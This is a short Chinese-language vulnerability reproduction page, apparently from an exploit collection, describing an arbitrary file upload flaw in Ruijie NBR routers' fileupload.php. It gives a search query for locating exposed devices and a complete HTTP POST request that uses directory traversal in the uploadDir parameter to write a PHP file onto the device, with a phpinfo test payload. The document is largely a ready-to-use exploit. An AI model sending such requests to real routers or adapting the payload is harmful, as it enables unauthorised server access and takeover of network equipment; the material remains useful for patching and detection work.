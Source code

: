 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

锐捷 NBR 路由器

## 网络测绘

```
app="Ruijie-NBR路由器"
```

## 漏洞复现

![](./images/202202110923377.png)

出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件

![image-20230828163312522](images/image-20230828163312522.png)

文件名及目录均可控，导致可以任意上传文件

```
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![image-20230828163324363](images/image-20230828163324363.png)

访问上传的文件目录

![image-20230828163346730](images/image-20230828163346730.png)